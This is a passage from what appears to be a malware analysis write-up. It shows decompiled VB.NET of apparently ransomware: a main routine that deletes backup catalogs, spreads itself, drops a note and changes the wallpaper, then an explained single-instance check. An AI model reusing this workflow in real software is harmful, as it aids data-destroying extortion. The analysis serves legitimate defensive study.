 ```vbnet
			Program.deleteBackupCatalog()
		End If
	End If
	If Program.checkSpread Then
		Program.spreadIt(Program.spreadName)
	End If
	Program.addAndOpenNote()
	Program.SetWallpaper(Program.base64Image)
	New Thread(Sub()
		Program.Run()
	End Sub).Start()
End Sub
```

We will try to detail each of the points.

### AlreadyRunning

```vbnet
Private Shared Function AlreadyRunning() As Boolean
	Dim processes As Process() = Process.GetProcesses()
	Dim currentProcess As Process = Process.GetCurrentProcess()
	For Each process As Process In processes
		Try
			If process.Modules(0).FileName = Assembly.GetExecutingAssembly().Location AndAlso currentProcess.Id <> process.Id Then
				Return True
			End If
		Catch ex As Exception
		End Try
	Next
	Return False
End Function
```

This code defines a function named `AlreadyRunning`, which is designed to determine if an instance of the current application is already running on the system. Here's a detailed explanation of what this code does:

1.  **Function Declaration**: `Private Shared Function AlreadyRunning() As Boolean` declares a private and shared (static in C# terms) function that returns a Boolean value (`True` or `False`).
    
2.  **Getting All Running Processes**: `Dim processes As Process() = Process.GetProcesses()` retrieves an array of all processes currently running on the computer.
    
3.  **Getting the Current Process**: `Dim currentProcess As Process = Process.GetCurrentProcess()` gets a reference to the current process (i.e., the application executing this code).
    
4.  **Looping Through Each Process**: The loop `For Each process As Process In processes` iterates through each process in the list of processes obtained earlier.
    
5.  **Comparing Processes**: Inside the loop, the code attempts to compare the main module (executable) of the process being iterated with that of the current process:
    
    -   `process.Modules(0).FileName` refers to the file path of the executable of the process being iterated.
    -   `Assembly.GetExecutingAssembly().Location` refers to the file path of the executable of the current process.
6.  **Checking Process Identity and Uniqueness**: The code checks if the process being iterated is the same as the current process (by comparing their executable paths) and also ensures it is not the same process by comparing their IDs (`Id`).
    
